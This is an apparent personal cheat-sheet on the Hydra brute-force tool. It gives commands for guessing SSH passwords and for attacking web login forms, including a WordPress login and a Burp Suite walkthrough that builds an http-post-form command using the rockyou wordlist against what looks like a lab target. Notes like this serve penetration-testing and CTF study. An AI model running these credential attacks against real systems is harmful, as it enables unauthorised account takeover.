

# 😡 hydra

## SSH method

`hydra -l user -p pass <ip_address> -t 4 ssh`

if it is a website check the post redssponse and copy it into hydra:

it should then look something like this:

`$ hydra -L lists/usrname.txt -P lists/pass.txt localhost -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`

## Http Post method

* open burp suite
* capture the requests with "intecept on"
* try and log in with username and password
* copy the URI from the login form \
  
* paste it into notepad
* then copy the content after the post request form displayed on burp suite (see below)\
  .png>)
* then turn intercept off and let the login form complete, save the login failed text output from the respective page:\
  .png>)
* now combine all this into a single command making sure the the parts where the username and password word are visible within the http request are replaced with ^USER^ and ^PASS^,
* also note the ":" collonns, this has the be in there as the gap between the above three peives of information in the http-post-form request,&#x20;


```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.221.186  
http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=dyQUEwPUlAKo%2BY19KasB%2BzCIQiMo2amxNSKu5cqLbLgVuu5bAIG%2FJxTIohj2S9Gh3ZDSu3N6AW%2Bwb20Gkm%2FHvAtTlluudu%2FsiyjBikVVXZShqkN3bBG5LSdV17lfzS4ZggHt0JNUH0%2BunvU9HHUSDoF5ZLZ7X%2FkD7qF04HHXBXhfQMhM&__EVENTVALIDATION=CJU7TEs9RS2Juzlj1l3BTwQTjWkiGHu5sDQnP7ovA7%2BiYV6Hi2WzBNVizESpcBQ4%2BZBNnyuovBlcfOcm%2Fo8S%2BUtvUUR5HDTCZ9gXHfez1omqBh0IRGLfBMZeR6ruBwVMfwKWCdRHKz5JJtJMMJGXJpeyl4meUgikR7p%2B8jOaVCP3UwKO&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed" -vv


```

